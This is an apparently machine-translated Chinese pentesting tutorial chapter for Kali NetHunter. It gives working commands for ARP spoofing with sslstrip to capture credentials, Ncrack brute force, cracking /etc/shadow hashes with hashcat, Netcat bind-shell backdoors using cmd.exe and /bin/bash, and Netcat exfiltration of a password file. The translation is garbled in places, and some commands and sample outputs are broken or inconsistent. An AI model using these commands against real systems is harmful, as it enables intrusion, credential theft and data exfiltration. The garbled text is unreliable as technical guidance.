



# 穿透目标

到目前为止，我们已经通过一些侦查工作收集了信息，扫描了一个目标，了解了活目标的位置以及它们留下的空缺，然后试图通过枚举提取更详细的信息。在这个过程中，我们学到了很多东西，但随着我们对这个过程以及 Kali NetHunter 如何帮助我们了解得更多，我们还有更多的工作要做。我们现在正进入一个步骤，通过尝试接近目标本身，我们实际上将穿透力放入穿透测试中。到目前为止的一切都让我们能够计划、学习，并准备在入学时做出成功的尝试。

我们的目标是访问主机，如果到目前为止我们打对了牌，我们积累的信息将帮助我们。当我们进入一个系统时，似乎有无数种方法可以实现这一点，但我们将把重点限制在其中的一小部分，并向大家展示 Kali Nethunter 如何帮助我们实现这些目标。在这一部分过程中，您需要执行各种任务，这是设计用来破解或恢复密码、提升权限、执行应用程序、隐藏文件、隐藏跟踪，以及隐藏您行为的证据。这都是一天的工作，所以让我们解雇 Kali Nethunter 开始吧。

在本章中，我们将介绍以下主题：

*   选择开裂方法
*   在目标系统上执行应用程序
*   获取机密信息
*   密码破解技术
*   执行应用程序
*   提升特权
*   运行后门

# 技术要求

对于本章，您需要 Kali NetHunter（默认安装是可以的）。

# 关于密码

为了获得对系统的访问权，通常要采取的第一步是只使用您为系统上的帐户获得的密码。当然，获取此密码是重要的一部分，因为您必须找到一种方法来获取有效帐户的密码。这就是所谓的密码破解或密码恢复的过程。

那么，术语*密码破解*的定义是什么？好吧，不管电影和电视对这个话题怎么说，密码破解是一个通俗的术语，指的是一组用来获取这段信息的技术。在这个过程中，你可以使用任何单独的或组合的方法，每种方法都有其优缺点。您可以盲目猜测密码，或者您可能有一些关于系统所有者的信息，这可能会使猜测过程更容易。获取密码的其他技术可能涉及反复猜测或利用系统中的安全弱点。

# 选择开裂方法

为了让事情变得更简单，让我们将密码破解分为几个主要类别，然后将我们的技术分类。我们将以操作方法为主要特征，对技术进行分类。请注意每个类别和其中的技术不仅提供了独特的方法，还提供了各自的优缺点，我们将在遇到它们时讨论它们。下图显示了密码破解攻击的分类：



密码破解技术的类别如下：

*   **被动技术**：这类攻击都是简单地通过聆听和避免与目标直接互动进行的攻击。脱机密码攻击旨在利用密码存储方式中固有的设计缺陷和缺陷。
*   **直接技术**：该技术要求与目标进行更具攻击性的直接互动。这些类型的攻击可能非常有效，但被检测的风险更高。

# 被动技术

在第一类中，我们有那些采用耐心等待的低风险方法的技术。过程和最终结果的有效性取决于所使用的方法、密码的强度和目标系统。

**嗅探**是获取信息的一种非常有效的方法，因为您只需插入网络并打开嗅探器，即可在信息在数据包流中流动时观察并捕获信息。这项技术特别有效的原因是，如果您针对的是使用不安全方法通过网络传输的凭据，例如较旧的网络协议，如文件传输协议（FTP）、Telnet 或简单邮件传输协议（SMTP）。这些长寿命且常用的协议中有许多都发现自己容易受到攻击，因为它们本身缺乏任何明显的保护。例如 HTTP，它以明文形式发送信息，您可以使用 Wireshark 等工具嗅探数据包并查看数据包中的内容：



上图显示了可以在网络上放置嗅探器的位置。

# 中间人

基于嗅探原理，我们有**中间人**（**MITM**攻击。当两台设备正在积极通信，而第三台设备从侦听变为积极参与者时，就会发生此攻击。下图显示了 MITM 攻击的概念：



这种类型的攻击有助于捕获网络流量和协议。然而，一些协议也被发现存在漏洞，例如用于保护许多电子商务和类似应用程序的安全套接字层（SSL）。

在 Kali NetHunter 中，您会发现一些工具能够帮助您执行 MITM，例如 SSL strip 和 Burp Suite。为了演示 MITM，让我们使用 SSL 条。

SSL 是一种广泛使用的标准，于 20 世纪 90 年代初开始存在，并从 1995 年开始公开使用。该协议的最新版本是 SSL 3.0，该协议在 2015 年年中被弃用，并且由于成功的妥协，例如在公开的贵宾犬攻击中，不应再使用该协议。为确保通信安全，应将 SSL 替换为更新的**传输层安全**（**TLS**版本 1.2），以保持尽可能高的安全级别。

因此，在我们进入实际攻击之前，让我们先看一下一些细节，以便充分理解它。

**地址解析协议**（**ARP**）将利用 ARP 协议（如果您回忆起您的基本网络体验，它将 IP 地址与特定 MAC 地址关联），使我们瞄准的系统相信我们是路由器（如果我们不是）。

由于我们使用的是 ARP 中毒，我们在网络上使用伪造的 ARP 消息，目的是改变系统上的 ARP 缓存。在正常情况下，当系统发出 ARP 请求时，它会查找与给定 IP 地址对应的 MAC 地址。响应时，返回消息将包括与请求匹配的系统的 IP 地址和 MAC 地址，然后将其缓存在请求者的系统中。当我们毒害这些缓存时，我们会发送一条消息，用不同的 MAC 地址重写缓存，这将使流量路由与网络所有者预期的不同。这具有以无数不同方式引导交通的效果。

通过这个简单的动作，客户机将把他们的流量转发到我们的系统，在那里我们可以在转发之前执行我们的 MITM，而不是将它发送到实际的路由器。

**流量分析**：在幕后，我们使用 SSL strip 来检测通过 SSL 协议向 URL 发出的请求，因为这些请求在我们的系统中流动。符合我们标准的流量将被拦截并修改。

**拦截和更改请求**：本质上，当涉及到检测请求的 SSL 条时，它剥离 SSL，然后更改请求或只是收集信息。

因此，如果我们把它们放在一起，我们可以看到 SSL 条带运行时发生了什么：

1.  攻击者通过欺骗路由器的 MAC 地址使自己看起来像路由器。
2.  客户端像往常一样使用 SSL 向网站或其他位置发出请求。
3.  请求应该直接发送到路由器，而不是发送到攻击者的模拟系统。
4.  SSL 条带（在攻击者的系统上运行）观察流量并查找任何使用 SSL 发送到某个位置的请求。
5.  当发出 SSL 请求时，它将被解除保护并检索到私有信息。
6.  然后请求重新应用 SSL 层并转发到服务器。
7.  服务器响应并将受 SSL 保护的内容发送回攻击者，攻击者从请求中剥离 SSL 并收集返回信息。
8.  然后将响应返回给一点也不明智的客户。

所以，让我们使用 SSL strip 实现这一点。

# 练习–使用 SSL 条带

为了为 SSL 剥离做好准备，我们需要提前设置一些东西幸运的是，我们已经具备了这样做的技能。我们将设立以下机构：

*   IP 转发
*   重定向`80`到`8080`的 IP 表
*   查找网关 IP
*   查找目标 IP
*   欺骗

应执行以下步骤来设置 IP 转发：

1.  在“终端”窗口中键入以下内容：

```
echo '1' > /proc/sys/net/ipv4/IP_forward 
```

2.  设置重定向以将请求从端口`80`重定向到`8080`。从终端窗口发出以下命令：

```
 iptables -t nat -A PREROUTING -p tcp -destination-port 80 -j REDIRECT 
-to-port 8080 
```

3.  通过在终端窗口键入以下内容来发现路由器 IP：

```
netstat -nr 
```

4.  从列表中选择一个目标。为了定位一个客户机，我们需要定位一个客户机并获取其 IP。您可以通过使用 nmap、嗅探或其他方式来实现这一点。拥有此 IP 后，请转至下一步。

5.  在终端窗口使用以下命令重定向通过承载 SSL 条带的攻击计算机的流量：

```
arpspoof -i interface -t target IP -r router IP 
```

6.  让终端窗口保持打开状态。
7.  打开第二个终端窗口，并保持第一个窗口打开。
8.  在第二个终端窗口输入`sslstrip -l 8080`启动`sslstrip`；这将告诉`sslstrip`在端口`8080`上监听（通过`-l`开关）。如果您回顾我们前面的步骤，我们将重定向到端口 8080，因此我们正在观察流向端口的流量。

9.  在目标系统（您在*步骤 4*中找到的系统）上，打开一个使用 SSL 的网站（您可以通过网站地址中的`https`来判断）。Gmail 等网站就是一个例子。
10.  访问网站并输入您的帐户或其他项目的凭据；您将注意到 sslstrip 系统上捕获的数据。
11.  捕获 Kali NetHunter 系统上的一些流量，切换到运行 sslstrip 的窗口，按*Ctrl*+*C*停止进程，并自动将结果写入名为`sslstrip.log`的文件。

结果可以在任何文本编辑器中打开，如 nano。

# 主动技术

主动密码破解技术直接在目标系统上或针对目标系统进行。使用这种技术的缺点是它增加了被发现的机会。

# 使用 Ncrack

执行此类攻击的一种方法是使用 Kali NetHunter 附带的 Ncrack 实用程序。此实用程序设计用于审计网络上的主机是否存在可能被用于攻击主机或网络设备的劣质密码。该实用程序基于命令行，允许使用不同的交换机和选项组合来优化破解过程。此外，该实用程序支持许多主要协议和服务，包括 RDP、SSH、HTTP、SMB、POP3、VNC、FTP、SIP、Redis、PostgreSQL、MySQL 和 Telnet。

# 练习–使用 Ncrack

为了使用 Ncrack，我们可以利用到目前为止收集到的有关实时系统、端口扫描和用户名的信息开始工作：

1.  找到一个活的系统。
2.  查找在其上运行 Ncrack 支持的服务的端口。
3.  使用 telnet 或您选择的旗帜抓取工具（如 nmap）对端口执行旗帜抓取，以对服务进行指纹识别。
4.  使用任何用户名，例如从 SMTP 枚举中收集的用户名，并将其保存到文本文件中。使用您可以记住的名称保存文件，例如`usernames.txt`。

5.  使用要尝试的密码创建第二个文本文件。您也可以从互联网上下载此文件，只需搜索`password lists`或`word lists`即可找到该文件。将其保存到名为您可以记住的内容的文本文件中，例如`passwords.txt`。

完成后，我们可以使用 Ncrack 查看可以得到的结果：

```
ncrack -vv -U usernames.txt -P passwords.txt <IP address:port number>, CL=1 
```

在本例中，我们使用以下内容：

*   `-vv`在命令运行时增加输出细节。
*   `-U`使用要尝试的用户名指定文件。
*   `-P`指定要使用的密码文件。
*   带有 Ncrack 支持的服务到目标的端口的 IP 地址。
*   `CL`指定与目标同时打开的连接数。更多的连接可能会提高速度。

如果某个帐户的命令成功，您的结果将打印在屏幕上，如下所示：

```
smtp://192.168.1.2:110 finished. 
Discovered credentials on rdp://192.168.1.200:110 'schmuck' 'aesop' 
```

如您所见，用户名为`schmuck`，密码为`aesop`。

# 离线攻击

**离线攻击**不是直接针对目标，而是针对攻击者的系统本身。脱机密码破解非常占用 CPU。

# 彩虹桌

离线攻击的功能和威力的一个非常有效的演示是通过一种称为彩虹表的技术。这种类型的攻击利用使用给定哈希方法创建的所有不同字符组合的预计算哈希。实际上，彩虹表将由 pentester 创建，pentester 将选择创建散列的参数。例如，将定义定义密码最小和最大长度的参数，以及字符集和散列类型。结果将是一个可用于查找正确密码的表。

那么，我们如何使用该表找到正确的密码呢？易于理解的我们从受害者的本地存储中检索散列密码，或使用嗅探从电线上捕获密码。

rainbow 表的缺点是，它们必须在执行恢复密码的尝试之前生成。rainbow 表的另一个失败是，您尝试恢复的密码越长，生成的表越大，生成它所需的时间也就越长。

# 练习–创建彩虹表

使用 rainbow 表破解方法的第一步是实际创建表本身。为此，我们将使用`rtgen`生成带有指定参数的表。

# 练习-使用 rtgen

要使用`rtgen`命令，我们必须打开终端窗口并提供所需的参数。以下是`rtgen`提供的选项列表：

```
lm, plaintext_len limit: 0 - 7 
ntlm, plaintext_len limit: 0 - 15 
md5, plaintext_len limit: 0 - 15 
sha1, plaintext_len limit: 0 - 20 
mysqlsha1, plaintext_len limit: 0 - 20 
halflmchall, plaintext_len limit: 0 - 7 
ntlmchall, plaintext_len limit: 0 - 15 
oracle-SYSTEM, plaintext_len limit: 0 - 10 
md5-half, plaintext_len limit: 0 - 15 
```

如果要生成彩虹表，请键入：

```
rtgen sha1 loweralpha-numeric 1 8 0 5000 6553600 0 

usage: rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index chain_len chain_num part_index 
```

创建 rainbow 表时，每个表都特定于给定的哈希类型，如 MD5 或 SHA1。`rtgen`程序支持许多散列算法，如 MD5 和 SHA1。

在前面的示例中，我们生成了 SHA1 彩虹表，这将加快 SHA1 哈希的破解速度。

执行命令后，您将在执行命令的文件夹中留下扩展名为的文件。下一步是使用以下命令对文件进行排序：

```
Rtsort *.rt 
```

这将在我们使用文件之前对其进行排序。

现在，我们将使用以下命令之一恢复密码。以下是第一点：

```
rcrack *.rt -l filename.txt (this will attempt to recover passwords from hashes stored in a text file)
```

或者，您可以使用此命令：

```
rcrack *.rt -h <hash> 
```

此命令将尝试恢复所提供哈希的密码。

# 把它放在一起

要成功破解密码，你必须有一个计划；仅仅是在不同的技术中跌跌撞撞可能会产生“成果”，但它们更有可能不仅不成功，而且会让你在这个过程中被发现。因此，让我们考虑一个策略，与 Kali NetHunter 中的强大工具一起使用。

首先，您应该了解，根据您的方法和目标环境，最有可能成为密码破解尝试目标的哈希将存在于不同的位置。

在使用 Microsoft Windows 的环境中，这些位置是 SAM 文件，该文件存在于本地计算机文件系统中，如果环境使用域，则也存在于 Active Directory 中。

那些基于 Linux 或 UNIX 环境的环境，通常将其哈希存储在完全不同的位置。这些系统将散列存储在一个名为`/etc/shadow`的位置，该位置同样位于本地文件系统上。

在这两种情况下，哈希和哈希的设计一样，都是单向加密，为每个密码生成唯一的输出或指纹。当然，即使散列是不可逆的，我们已经解释过可以使用彩虹表来查找创建散列的内容；然而，有一个问题尚未解决。这个问题是有多个散列算法，相同的输入会在每个算法上产生不同的结果。所以我们需要在走得太远之前识别哈希算法；幸运的是，我们有办法做到这一点。

例如，基于 Linux 的系统使用众所周知的 MD5 算法，而 Windows 系统使用 HMAC-MD5，其他一些技术使用 SHA1、MD4、NTLM 等。

一种方法是在 Kali NetHunter Linux 中使用一种称为哈希标识符的工具。只需在 Kali NetHunter 中打开一个命令提示符并输入以下内容，即可运行此工具：

```
hash-identifier <retrieved hash> 
```

哈希标识符工具将继续尝试识别哈希并列出可能的类型。

另一种选择是使用 John the Ripper 密码破解工具（Kali Nethunter 中也包括该工具）。然而，在其他流行的密码破解工具中，自动检测不是一个选项，因此必须指定哈希类型，因此需要哈希标识符。

# 练习–使用 hashcat 恢复密码

让我们使用 Kali NetHunter Linux 和 hashcat 恢复第一组密码。**Hashcat**被认为是最快的基于 CPU 的密码恢复工具之一。虽然最初是专有的，但该软件现在完全免费，不仅在 Linux 中广泛使用，而且在 OS X 和 Windows 中也广泛使用。它还提供了一个版本，可以利用系统的 CPU，但也有能力利用更快的图形处理单元（GPU）。hashcat 支持的哈希算法的例子有微软的 LM 哈希、MD4、MD5、SHA 系列、Unix 加密格式、MySQL、Cisco-PIX。

要在 KaliNetHunter 中启动密码破解过程，请转到`Applications``Kali Nethunter Linux``Password Attacks``Offline Attacks``hashcat`。

这将打开终端窗口，并显示一些帮助信息。

在屏幕顶部，您将看到 hashcat 语法：

```
hashcat options hashfile mask <wordfile> <directory> 
```

其中一些最重要的是-m（hashtype）和-a（攻击模式）。

让我们分析一下 hashcat 的语法和一些重要选项，它们可以用来定制和调整 hashcat 的破解过程。这些规则可以获取您创建的单词列表文件，并应用大小写规则、特殊字符、单词组合以及附加和前置数字。这些技术中的每一种都会使更复杂的密码更容易被破解。事实上，hashcat 将允许您自定义用于尝试恢复目标密码的自定义字符集和选项。

您还需要选择被破解的哈希类型。如果您知道目标系统上的散列类型或使用了散列标识符，则可以执行此操作。

最后，我们必须选择要破解的哈希类型。Hashcat 为我们提供了许多选项。当我们准备好瞄准散列时，您将通过从 hashcat 呈现的列表中选择（按编号）来指定要瞄准的散列的类型。

您可以从网上下载单词列表，也可以使用 locate 命令搜索 Kali NetHunter 系统，以查找产品中的内置单词列表。可以使用以下语法执行此操作：

```
locate rockyou.txt
```

一旦我们准备好 hashcat 和单词列表，我们就可以从获取一些哈希开始。在 Linux 中，我们可以通过以 root 用户身份登录并查看`/etc/shadow`来获取这些信息，如下所示：

```
tail /etc/shadow
```

执行此命令后，我们可以看到带有散列的阴影文件。

有了这些信息，我们现在需要确定系统正在使用什么类型的散列。幸运的是，通过发出以下命令，我们可以相当容易地做到这一点：

```
more /etc/login.defs 
```

点击 enter 键，在文件中向下导航大约 80%，直到您看到一个标记为`ENCRYPT_METHOD`的条目，后面跟着一个通常为 SHA512 的值。这很重要，因为 hashcat 需要这些信息来显示哈希值。

了解散列的位置，以及系统使用的散列算法，现在可以开始破解散列的过程。

首先，我们希望将散列放入一个名为`hash.lst`的文件中，我们通过发出以下命令来创建该文件：

```
cp oringal_hashes.txt /etc/shadow hash.lst 
```

为了确保复制了所有内容，让我们发出以下命令：

```
more hash.lst 
```

如果所有操作都成功完成，您应该会看到哈希已按预期复制到`hash.lst`文件中。

在尝试破解此文件中的哈希之前，我们需要去掉一些信息来清理这些内容。基本上，我们将删除任何不是散列的内容。默认情况下，该文件将包含用户名信息，在该过程中不需要这些信息。

为了确保该过程将成功，您需要立即删除用户名和冒号。删除此项后，您将删除所有内容：转到行的末尾，删除任何以冒号开头的内容。为了进一步解释，让我们来看看下面的截图：


我们需要稍微清理一下，以便只显示突出显示的哈希值：


在最后一步中，现在可以开始破解散列的过程。以下是启动此过程的命令：

```
Kali Nethunter > hashcat -m 1800 -a 0 -o cracked.txt --remove hash.lst /usr/share/sqlmap/txt/ 
wordlist.txt 
```

*   `-m 1800`指定我们正在破解的哈希类型（SHA-512）。
*   `-a 0`指定字典攻击。
*   `-o cracked.txt`是破解密码的输出文件。
*   `--remove`告诉 hashcat 在散列被破解后移除散列
*   `hash.lst`是我们的哈希输入文件。
*   `/usr/share/sqlmap/txt/wordlist.txt`是此字典攻击的单词列表的绝对路径。

一旦破解过程开始，您可以通过按*回车*来查看事情的进展情况。这个过程将需要不同的时间段，这取决于您的 Android 设备的功能以及您同时在系统上运行的其他功能。

# 执行应用程序

在本节中，我们将讨论如何远程运行应用程序以及如何使用该功能。

作为一名 pentester，您应该对此时将要做的事情有一个好的或明确的想法，例如运行应用程序或执行。需要执行以下任务：

*   **后门**：黑客在破坏一个系统后，会在被破坏的计算机上制造多个入口。这是为了确保攻击者始终能够进入计算机，无论是出于远程访问目的还是为了过滤数据。这就是所谓的后门。后门通常是在主机上安装特洛伊木马病毒时创建的。
*   **键盘记录器**：这是一种基于软件或硬件的设备，能够记录用户键盘上的击键。

# 提升特权

在破坏操作系统（如 Windows）后，您将在系统上拥有有限的权限。这意味着，如果您试图执行某些命令或运行应用程序，内置安全机制将拒绝此类操作。如果你能够破坏一个用户帐户，它也可能是一个权限有限的标准用户。作为渗透测试人员，我们希望能够在受害者机器上执行任何命令和应用程序，而不受任何限制。

因此，根据渗透测试的目标，您可能需要在 Windows 环境中获得“管理员”权限，或者在基于 Linux 的系统上获得根级别访问权限。

# 在目标系统上执行应用程序

一旦获得访问权限并获得足够的特权，就可以在受害者身上执行应用程序了。此时执行哪种类型的应用程序或操作是您必须决定的，但关于您可以做什么，这个领域是非常开放的。

# 练习–使用 Netcat 安装后门

**Netcat**就像 TCP/IP 协议栈中的一把瑞士军刀。它是一个非常流行的网络工具，为网络和安全专业人员提供了许多功能；其中一些功能包括：

*   能够通过网络读取和写入数据
*   传输文件的能力
*   开放服务端口
*   进行端口扫描和横幅抓取

Netcat 不是特定于操作系统的；它同时适用于 Windows 和 Linux 平台。在本节中，我们将看一些 Netcat 的示例和用法。

要连接到另一台机器，请执行以下操作：

```
nc <host IP address> < port> 
```

要侦听入站连接，请发出以下命令：

```
nc -l -p <port> 
```

只需将端口号替换为远程系统上任何未使用的有效端口即可。

在要从中连接的系统上，运行以下操作：

```
nc <remote host IP address> <remote port> 
```

此命令表示联系远程系统，然后连接到您已告知`nc`在远程系统上侦听的端口。

让我们再往前走一点。

现在让我们在目标系统上创建一个后门，我们可以随时利用它。该命令将根据您的目标是 Linux 还是 Windows 系统而略有不同。

对于 Windows，我们使用以下选项：

```
 nc -l -p <port number> -e cmd.exe
```

对于 Linux，我们使用以下方法：

```
nc -l -p <port number> -e /bin/bash 
```

在这两个命令中，-e 开关用于在机器连接到命令外壳时执行命令。这意味着我们将在本地看到一个 shell，我们可以使用它将命令传递到远程系统。然后，在我们的攻击系统上，我们键入以下内容：

```
nc <remote host IP address> <remote port> 
```

此时，如果您成功执行了该命令，您将看到一个命令提示符，允许您与远程系统交互。

Netcat 还可以用于从目标系统中过滤文件和数据。我们可以使用隐形连接将数据缓慢复制到本地系统。在本例中，我们将导出一个名为`passwords.xls`的文件，可能是一个带有密码的 Excel 文件。

在源系统中，我们键入以下内容：

```
type passwords.xls | nc <remote IP> <remote port>  
```

此命令表示显示`passwords.xls`文件，然后通过端口`6996`将其通过管道（`|`传输到 netcat（nc）到`192.168.1.104`远程 IP 地址。

在目标系统中，我们键入以下内容：

```
nc -l -p 6996 > passwords.xls 
```

此命令表示在端口（`p``6996`上创建一个侦听器（`l`，然后将此侦听器上接收到的数据发送到名为`passwords.xls`的文件。

# 总结

我们首先研究如何利用在前面步骤中为目标收集的信息。前几章中的信息是通过与目标直接互动的测量（但不断增加）水平收集的。其目的是获取额外的信息，我们可以利用这些信息来破坏系统，同时尽量减少干扰。

我们通常先破解或恢复密码以获得对帐户的访问权限，然后再尝试通过权限提升获得对系统的额外访问权限。通过增加访问权限，可以执行更具侵入性的任务。攻击者可能尝试执行的常见操作通常包括安装软件、安装远程软件或创建其他后门以供以后访问。

在下一章中，我们将学习如何清除目标系统中的痕迹和移除证据。

# 进一步阅读

请参阅位于[的 Kali Linux/Kali NetHunter 工具列表 http://tools.kali.org](http://tools.kali.org) 。